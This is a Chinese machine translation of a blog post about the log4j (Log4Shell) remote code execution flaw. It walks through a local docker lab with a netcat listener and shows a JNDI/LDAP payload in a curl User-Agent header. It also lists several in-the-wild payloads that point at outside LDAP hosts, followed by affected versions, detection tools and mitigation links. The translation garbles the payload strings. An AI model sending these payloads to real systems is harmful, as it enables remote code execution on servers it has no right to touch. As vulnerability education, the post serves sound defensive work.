




# 概念验证:零时差 RCE

> 原文：<https://infosecwriteups.com/proof-of-concept-zero-day-log4j-rce-fb9e1364fe92?source=collection_archive---------0----------------------->

> [log4j 是什么？](#b145)
> 
> [谁会受到影响？](#fe64)
> 
> [概念验证:](#7845)
> 
> [上面刚刚发生了什么？](#c2f8)
> 
> [其他有效载荷](#ec1a)
> 
> 我有危险吗？
> 
> [我如何才能安全？](#a5bf)
> 
> [参考文献:](#60d3)

大家好，今天，我们将看看一个特制的字符串如何导致远程代码执行(RCE)，以及这个漏洞如何影响互联网的大部分。让我们进入主题。

# log4j 是什么？

Log4j 是一个用 java 编写的日志框架。开发人员经常使用日志来找出软件中的问题发生在哪里。但是，该框架存在一个漏洞，使得攻击者能够远程执行代码(RCE)。

# **谁会受到影响？**

大多数大型科技公司都使用这个框架。据消息人士称，《我的世界》、苹果 iCloud、Steam 和其他一些公司都受到了影响。许多网络安全公司报告称，检测到了针对该漏洞的大规模扫描。

# **概念验证:**

如果您想在本地机器上重现此漏洞，请从 Github 下载此易受攻击的应用程序。

**Github 链接:**[https://github.com/leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)

**第一步:**克隆存储库并进入目录

**第二步:**使用 docker 通过以下命令构建一个映像。

**步骤 3:** 运行 docker 容器，如下所示

**步骤 4:** 打开一个新的终端，启动一个 Netcat 监听器

**第五步:**提出卷曲请求

> curl -H '用户代理:$ { JNDI:LDAP://172 . 17 . 0 . 1:8055/a } '本地主机:1334

**步骤 6:** 现在查看 Netcat 监听器，您将能够看到接收到的连接。

# **上面刚刚发生了什么:**

curl 请求中的有效负载触发了步骤 5 中的 log4j 漏洞，导致服务器向攻击者的服务器发送请求。这个响应包含一个远程 java 类文件的路径，该文件被注入到服务器进程中。

# **其他有效载荷:**

以下是一些在野外捕获的其他有效载荷。
LDAP://2862853 fca0b . bingsearchlib . com:39356/a
LDAP://45 . 155 . 205 . 233:12344/Basic/Command/Base64/
LDAP://x . x . x . x . c 6 pnncggjk 7 JK 873 c 9 e 0cg 3 zzcoyyyyn . interact sh . com/999
LDAP://x . x . x . x

# **我有危险吗:**

此框架的 2.10 到 2.14 版本易受攻击。如果你在使用这两个版本中的任何一个，你就有风险。然而，你也可以找到，如果你是脆弱的，或者没有几个工具的帮助。我在下面列出了其中的一些。

[https://gist . github . com/byt 3 bl 33d 3 r/46661 BC 206d 323 e 6770907d 259 e 009 b 6](https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6)

[https://Twitter . com/thinkstcanary/status/1469439743905697797？s=21](https://twitter.com/thinkstcanary/status/1469439743905697797?s=21)

# **我怎样才能安全:**

补丁已经开始推出。该漏洞已在 2.15 版中得到解决，尽管仍需要 Java 8。他们都不能升级到 java 8，因为它可能会在代码库中产生一些冲突，所以 Lunasec 建议了一些临时解决方案。可以在下面的链接中找到。
[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# 最终想法:

如果你喜欢我的工作，你可以在这里给我买杯咖啡

# **参考文献:**

 [## GitHub-Leon jza/log 4 jpwn:log4j rce 测试环境

### log4j rce 测试环境参见:https://www.lunasec.io/docs/blog/log4j-zero-day/要么在您的主机上用

github.com](https://github.com/leonjza/log4jpwn)  [## Log4Shell:在 log4j 2(一个流行的 Java 日志包| LunaSec)中发现 RCE 0 天漏洞

### 7 分钟阅读更新@太平洋标准时间 12 月 11 日下午 7:30 这篇博文在 https://log4shell.com/也有几个小时…

www.lunasec.io](https://www.lunasec.io/docs/blog/log4j-zero-day/)